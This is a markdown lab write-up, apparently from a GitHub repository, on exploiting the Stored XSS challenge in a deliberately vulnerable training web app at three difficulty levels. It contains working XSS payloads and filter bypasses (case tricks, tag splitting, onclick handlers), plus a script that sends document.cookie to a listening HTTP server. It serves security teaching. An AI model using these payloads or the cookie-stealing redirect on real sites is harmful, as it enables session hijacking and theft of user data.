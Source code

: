# Stored XSS

Stored XSS is a type of XSS vulnerability where malicious scripts are permanently stored on the target server, typically in a database, comment field, message board, etc. Whenever a user loads a page that displays this stored data, the malicious script executes in the context of their browser.

This is more dangerous than other forms of XSS because:
- It doesn’t require the attacker to trick the victim into clicking a malicious link.
- It affects every user who views the infected content.

## Stored XSS vs Reflected vs DOM-based XSS

| Type | Payload Location | Execution Trigger | Server Involvement |
|------|------------------|-------------------|--------------------|
| Stored | Stored in database or file | Page load | Yes (saves and reflects) |
| Reflected | In URL or form input | On page load after request | Yes (reflects directly) |
| DOM-based | In client-side script | Handled by Javascript | No (purely on client side) |

## Example Differences:
- Stored: Attacker posts `<script>alert('XSS')</script>` as a comment. Anyone viewing the comment sees the popup.
- Reflected: Attacker sends a link like `?name=<script>alert(1)</script>`. User clicks the link, and the script runs.
- DOM-based: Script on page takes URL hash `(#xss=<script>)` and injects it into HTML using innerHTML.

> Note: Stored XSS is stored in the database. The XSS will be permanent until the database is reset or the payload is manually deleted.

<br>

---

## Low Difficulty


In Low difficulty, the code will not check the requested input before including it to be used in the output text:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%><br><br>

### Injecting Script

From user's perspective, the submitted name and message will be stored to the backend database, so each time a user visit the page, the guestbook message can be seen by others:

<img src="./Screenshots/Screenshot2.png" width=80% height=80%><br><br>

Now, we can try injecting a Javascript message:

<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

What’s interesting here is if we go to other page and go back, even though there is no malicious URL, the code will be executed every time the page is loaded:

<img src="./Screenshots/Screenshot4.png" width=80% height=80%>

<img src="./Screenshots/Screenshot5.png" width=80% height=80%>

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

The only way to get rid of this is to clear the guestbook, so the script is no longer staying in the database:

<img src="./Screenshots/Screenshot7.png" width=80% height=80%>

<img src="./Screenshots/Screenshot8.png" width=80% height=80%><br><br>

### Cookie Exfiltration

Since the objective is to redirect victim to another page, we can set up our HTTP server and use the same script `<script>window.location='http://127.0.0.1:1337/?cookie=' + document.cookie</script>` from previous challenge:

<img src="./Screenshots/Screenshot9.png" width=80% height=80%><br><br>

Here we need to inspect the page element and change the max length for message box so our script can fit inside:

<img src="./Screenshots/Screenshot10.png" width=80% height=80%><br><br>

If we go to another page and went back here, the page will automatically redirect us to the specify URL and send the cookie to the server:

<img src="./Screenshots/Screenshot11.png" width=80% height=80%>

<img src="./Screenshots/Screenshot12.png" width=80% height=80%>

<img src="./Screenshots/Screenshot13.png" width=80% height=80%><br><br>

---

## Medium Difficulty

> Note: If you can’t go back to the Stored XSS challenge page, remember to set the difficulty to Impossible and clear the guestbook, then set back to Medium again.

In Medium difficulty, the code will now strip the whole `<script>` tag and add slashes to the message:

<img src="./Screenshots/Screenshot14.png" width=80% height=80%><br><br>

We can see that due to the `<script>` tag being stripped, it is no longer a valid Javascript and thus when stored in database, it will not be executed whatsoever:

<img src="./Screenshots/Screenshot15.png" width=80% height=80%>

<img src="./Screenshots/Screenshot16.png" width=80% height=80%><br><br>

### Solution

If we look into the source code again, we can see that the `name` input do have sanitization, but it just specifically to look for the match of `<script>`, unlike the `message` input sanitization where the tag has been completely stripped, which means we can use the previous method like `<SCRIPT>`, `<S  C  R  I  P  T>` or `<scr<script>ipt>` to bypass this:

<img src="./Screenshots/Screenshot17.png" width=80% height=80%><br><br>

We can then utilize this vulnerability to insert our Javascript, in this case I used `<scr<script>ipt>alert(document.cookie)</script>`. (Remember to change the max length in the inspect page element):

<img src="./Screenshots/Screenshot18.png" width=80% height=80%><br><br>

The Javascript has been successfully stored in the database and executed. We can do the same cookie exfiltration like previous low difficulty that hosting a HTTP server and redirect victim to the page that will steal the cookie and send to the server:

<img src="./Screenshots/Screenshot19.png" width=80% height=80%><br><br>

---

## High Difficulty

Just like the previous Reflected XSS challenge, now the high difficulty of Stored XSS challenge also use `preg_replace` to remove all the element that can match to `<script>`. As usual, we can use other tag like `<img src>` to bypass this, but this time let’s try to use different one since we’ve been using `<img src>` for quite a while:

<img src="./Screenshots/Screenshot20.png" width=80% height=80%><br><br>

We can use the `a` tag and `onclick` event script, can be found on the cheatsheet website as well:

<img src="./Screenshots/Screenshot21.png" width=80% height=80%><br><br>

Now we can bypass the `<script>` tag protection on name input, so it is should be stored in the database. We can see that our name has become `test` and is clickable:

<img src="./Screenshots/Screenshot22.png" width=80% height=80%><br><br>

If we click on it, the script will be executed, and each time the page is loaded, the name can be clicked:

<img src="./Screenshots/Screenshot23.png" width=80% height=80%><br><br>

We can try other event handler such as `oncopy`, `ondraggable`, `oncut` and more. Feel free to explore more on the PortSwigger XSS cheatsheet.

---

## Conclusion

Stored XSS is one of the most dangerous forms of Cross-Site Scripting because the malicious payload is permanently saved in the backend database and delivered to all users who visit the affected page. This makes it more scalable and impactful than Reflected or DOM-based XSS, as no user interaction or special link is required, just simply visiting the infected page is enough.

In this challenge, we have learned that:
- Low difficulty allowed raw JavaScript to be saved and executed directly with no sanitization, affecting all users who visited the guestbook.
- Medium difficulty attempted to filter `<script>` tags but still allowed bypasses on `name` input via case manipulation, tag splitting, and alternative encodings.
- High difficulty used regular expressions to block `<script>` but remained vulnerable to event handler-based attacks using other HTML tags like `<a onclick=...>`, proving that partial filtering is not a reliable defense.

Across all levels, once the payload was successfully stored, it was repeatedly triggered upon each page load or user interaction and this shows a powerful demonstration of how stored XSS can lead to impactful exploitation.

---

### Skills Applied:

- Understanding the difference between Stored, Reflected, and DOM-based XSS
- Identifying where user input is stored and reflected in output
- Exploiting unsanitized input fields to inject persistent JavaScript
- Bypassing basic filters using:
  - Case-insensitive tags (`<SCRIPT>`, `<S  C  R  I  P  T>`)
  - Tag-splitting (`<scr<script>ipt>`)
  - HTML event handlers (`onclick, onerror`)
